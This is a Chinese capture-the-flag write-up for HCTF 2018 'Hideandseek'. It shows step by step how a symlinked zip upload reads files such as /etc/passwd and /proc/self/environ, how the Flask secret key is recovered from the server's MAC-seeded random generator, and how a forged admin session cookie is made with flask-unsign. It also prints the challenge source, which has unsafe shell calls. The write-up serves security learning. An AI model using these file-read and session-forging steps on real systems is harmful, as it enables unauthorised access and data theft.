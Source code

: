# \[HCTF 2018]Hideandseek

## \[HCTF 2018]Hideandseek

## 考点

* Linux下的ln命令
* Python随机数漏洞
* flask session伪造

## wp

提示先登录，随便输账号密码，比如aaaa/aaaa，提示要上传压缩包

![](<../../.gitbook/assets/image (23).png>)

F12看到session是`eyJ1c2VybmFtZSI6ImFhYWEifQ.FVpCHQ.ekVxiCec35C4f6Dm2G2qW-HES7U`

解码是`{'username': 'aaaa'}`

上传一个压缩包，返回了压缩包中的文件内容，那这里使用`ln`软链接可能有任意文件读取，和[\[SWPU2019\]Web3](swpu2019-web3.md)差不多

* `ln -s /etc/passwd test`
* `zip -ry test.zip test`

![](<../../.gitbook/assets/image (28).png>)

读取`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，有用的就只有`/proc/self/environ`

{% code title="/proc/self/environ" %}
```
......
UWSGI_INI=/app/uwsgi.ini
PWD=/app
STATIC_PATH=/app/static
......
```
{% endcode %}

再读取`/app/uwsgi.ini`

```
[uwsgi] 
module=main 
callable=app 
logto=/tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/main.py`发现是个假的文件，原题的uwsgi.ini文件如下

```
[uwsgi]
module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    if request.method == 'POST' and username != '' and password != '':
        if(username == 'admin'):
            return redirect(url_for('index',error=1))
        session['username'] = username
    return redirect(url_for('index'))


@app.route('/logout', methods=['GET'])
def logout():
    session.pop('username', None)
    return redirect(url_for('index'))

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'


    try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None

    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)
```

获取flag的条件是session的username为admin

值得注意的是，它使用了`random.seed(uuid.getnode())`去生成随机数种子，然后设置secret\_key为随机数`app.config['SECRET_KEY'] = str(random.random()*100)`

Python中的random是伪随机数，只要种子是一样的，后面产生的随机数也是一样的

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式，Linux中记录MAC地址的文件是`/sys/class/net/eth0/address`或者 `/etc/sysconfig/network-scripts/ifcfg-eth0`

读取`/sys/class/net/eth0/address`，得到`9e:e1:ac:68:a3:d1`

```
>>> s='9e:e1:ac:68:a3:d1'.replace(':','')
>>> s
'9ee1ac68a3d1'
>>> int(s,16)
174692097369041
```

然后重新跑一下随机数，Python2和3都试一下

{% code title="Python3" %}
```
>>> import random
>>> mac=174692097369041
>>> random.seed(mac)
>>> random.random()*100
75.69105245694635
```
{% endcode %}

然后重新生成session

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '75.69105245694635'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Yni6fA.z7e5HN3WUPwOIVRa5fyltNYuG_4
```

这里的随机数考点和[\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)一样。

![](<../../.gitbook/assets/image (25).png>)

## 小结

1. [\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)+[\[SWPU2019\]Web3](swpu2019-web3.md)=本题
